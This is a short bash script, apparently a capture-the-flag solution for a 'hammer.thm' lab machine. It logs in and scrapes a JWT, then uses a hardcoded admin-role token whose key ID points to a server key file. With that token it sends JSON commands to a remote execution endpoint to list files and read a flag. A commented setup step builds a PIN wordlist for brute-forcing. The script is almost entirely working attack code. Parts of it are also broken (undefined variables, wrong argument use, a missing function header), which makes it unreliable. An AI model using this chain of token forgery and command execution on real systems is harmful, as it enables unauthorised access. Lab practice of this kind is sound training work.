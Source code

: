 ```sh
{
	curl -sL $url -d "email=$email" -d "password=$pass" --cookie cookie.txt --cookie-jar cookie.txt -o result.html
	token=$(grep -Eo "jwtToken = '(.*)';" result.html | awk -F\' '{print $2}')
	send_ls $token
}

function send_ls()
{
	token=$2
	curl -sL $x -d '{"command": "ls"}' -H 'Content-Type: application/json' -H "Authorization: Bearer $token" --cookie-jar cookie.txt --cookie cookie.txt
}

function get_flag()
{
	login
	token='eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM0NjU2ODI3LCJleHAiOjE3MzQ2NjA0MjcsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.N1Jc0l41yo66trQRgZASR3Lu2I2RtHiqqSNCQVAAXXk'
	curl -sL $x -d '{"command": "cat /home/ubuntu/flag.txt"}' -H 'Content-Type: application/json' -H "Authorization: Bearer $token" --cookie-jar cookie.txt --cookie cookie.txt
}

function setup()
{
    crunch 4 4 0123456789 -o pins.txt
    get_session
}
#setup
#attack
get_flag
```
